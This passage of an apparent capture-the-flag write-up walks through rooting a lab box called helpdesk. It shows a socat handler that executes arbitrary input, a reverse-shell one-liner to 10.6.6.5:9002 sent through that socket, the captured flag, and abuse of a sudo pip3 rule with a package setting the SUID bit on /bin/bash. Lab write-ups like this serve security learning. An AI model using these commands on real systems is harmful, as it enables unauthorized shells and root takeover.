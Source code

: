 ```bash
/usr/bin/socat -d -d UNIX-LISTEN:$SOCKET,fork,mode=777 EXEC:/opt/helpdesk-socket/handler.sh

--handler.sh---
cat handler.sh
#!/bin/bash
# Simple parser — executes anything sent over the socket (dangerous!)
read cmd
echo "[HelpDesk Automation] Executing: $cmd"
/bin/bash -c "$cmd"
```
Since the `helpdesk.sock` file has a SUID bit and is owned by the user helpdesk, then if we establish a connection to the host using the sock file all the commands will be executed with the `helpdesk` user context.
```bash
echo 'bash -i >& /dev/tcp/10.6.6.5/9002 0>&1' | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```
Used the above script to run another reverse shell as the `helpdesk` user.
we now have the user flag
```text
flag{ticket_approved_by_thedesk}
```
checking for any sudo capabilities that the `helpdesk` user might have 
```bash
helpdesk@helpdesk:~$ sudo -l
sudo -l
Matching Defaults entries for helpdesk on helpdesk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User helpdesk may run the following commands on helpdesk:
    (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *
```
From the above output we can install any python package into the host without any sudo password.
Here we create a malicious python package and use it to gain root privileges with the help of chatGPT I was able to create a malicious python package
```bash
kali :: exercises/HMV/helpdesk » tree mypackage
mypackage
├── LICENSE
├── mypackage
│   ├── __init__.py
│   ├── module1.py
│   └── module2.py
├── pyproject.toml
├── README.md
├── setup.cfg
└── tests
    └── test_module1.py
```
this was the tree structure for the package named `mypackage`. then move the package after creating it to the target machine and install it with the command
```bash
sudo /usr/bin/pip3 install --break-system-packages mypackage
```
and run
```bash
bash -p
```
and you will have gained the root privileges because the `mypackage` contained codes that will add the `SUID` bit to `/bin/bash`.
Also a simple way is to create a directory and create a `setup.py` script with the following
```bash
helpdesk@helpdesk:~/test$ echo 'import os; os.system("chmod +s /bin/bash")' > setup.py
<ort os; os.system("chmod +s /bin/bash")' > setup.py
```